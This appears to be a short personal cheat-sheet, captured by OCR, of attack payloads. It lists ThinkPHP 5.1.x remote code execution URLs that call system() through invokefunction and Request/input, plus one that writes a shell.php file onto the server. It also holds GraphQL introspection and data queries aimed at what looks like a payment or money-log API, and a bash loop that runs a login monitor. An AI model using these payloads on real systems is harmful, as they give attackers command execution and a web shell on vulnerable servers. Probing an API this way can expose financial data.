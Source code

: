 5.1.x的payload
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=操作系统命令


?s=index/\think\Request/input&filter=system&data=操作系统命令


?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E

graphiql:
query: root
mutation: update_data
query {
  __schema {
    types {
      name
      kind
      description
      fields {
        name
      }
    }
  }
}

query {
    query_money_log_list(vipId: 1,page: 1){
      data{
        logid
        title
        data
        type
        vipId
        money
        createDate
      }
      count
    }
}

mutation update_data{
  get_moneykey{
    code
    msg
    status
    data
    count
  }
}

#!/bin/bash

while true

do

	python3 /root/login_monitor.py

	sleep 3

done
